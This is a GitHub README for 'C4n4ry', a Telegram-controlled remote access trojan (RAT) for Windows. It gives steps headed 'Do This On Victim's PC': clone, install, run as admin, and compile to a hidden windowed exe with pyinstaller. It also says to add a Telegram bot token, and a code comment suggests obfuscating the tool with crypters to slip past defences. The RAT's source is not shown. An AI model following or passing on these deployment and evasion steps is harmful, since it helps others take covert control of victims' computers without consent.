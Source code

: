 <p align="center">
<a href="https://git.io/typing-svg">
<img src="https://readme-typing-svg.demolab.com?font=Fira+Code&weight=700&duration=3000&pause=900&background=FFFFFF00&center=true&vCenter=true&random=false&width=435&lines=Welcome+To+The+C4n4ry!!" alt="Typing SVG" />
</a></p>

###### <p align="center">*This is official repository maintained by me*
###### <p align="center"> *[0xb14cky → Instagram](https://www.instagram.com/0xb14cky/)✌*
###### <p align="center"> *[0xB14CKY→ Youtube](https://www.youtube.com/channel/UC8bmAXnfIitSouOnhD9bjzA/) ❤️*
  

## C4n4ry
 
A Simple Telegram API Based Remote RAT for Windows

## Do This On Victim's PC

1. Running .py file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
pip install -r requirements.txt
python C4n4ry.py
```
2. Running .exe file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
# auto-py-to-exe or pyinstaller
pip install pyinstaller auto-py-to-exe
pyinstaller --noconfirm --onefile --windowed C4n4ry.py
```

- How to Obtain Own API of Telegram
[https://core.telegram.org/api/obtaining_api_id]
 
- Add Your Telegram API Key in File

```py
# Telegram Token
TOKEN = ""
# Why are TOKEN and AUTH passwords hardcoded? Because any Avasory can obsucate it using some crypters, converge it to exe, and run into testing machines, so that's why the command line argument feature is not given. 
```

 ### Development by

Developer / Author: [0xB14CKY](https://www.instagram.com/0xb14cky/)


